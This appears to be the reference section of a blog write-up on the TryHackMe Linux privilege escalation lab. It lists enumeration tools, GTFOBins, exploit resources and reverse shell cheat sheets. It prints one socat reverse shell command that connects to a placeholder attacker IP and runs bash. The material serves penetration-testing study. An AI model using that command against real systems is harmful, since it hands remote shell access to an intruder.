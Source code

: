 ```yaml
---
title:  "THM: Linux Privilege Escalation"
date:   2024-03-11 15:00:00 +0000
categories: [Linux]
tags: [Linux]
---
```


![img](/assets/img/lpe.png)  


---
Ref: 

- [THM: Linux Privilege Escalation](https://tryhackme.com/r/room/linprivesc)

- [THM Room: John the Ripper](https://tryhackme.com/room/johntheripper0)

- [LinPeas](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS) 

- [LinEnum](https://github.com/rebootuser/LinEnum)

- [LES - Linux Exploit Suggester](https://github.com/mzet-/linux-exploit-suggester) 

- [Linux Smart Enumeration](https://github.com/diego-treitos/linux-smart-enumeration)

- [Linux Priv Checker](https://github.com/linted/linuxprivchecker)

- [CVE](https://cve.org/)

- [NIST](https://nvd.nist.gov/vuln)

- [GTFOBins - Sudo Right Information ](https://gtfobins.github.io)

- [GTFOBins - Prefilter SUID](https://gtfobins.github.io/#+suid)

- [Named Pipe](https://www.linuxjournal.com/article/2156) 


- [For socat to work, needs to install socat to target using "Precompiled socat binary"](https://github.com/andrew-d/static-binaries/blob/master/binaries/linux/x86_64/socat?raw=true)
```
socat TCP:<attacker-ip>:<attacker-port> EXEC:"bash -li",pty,stderr,sigint,setsid,sane
```
- [Dirty C0w](https://dirtycow.ninja/) 

- [Payloads All The Things](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md)

- [PentestMonkey PHP Reverse Shell](https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php)
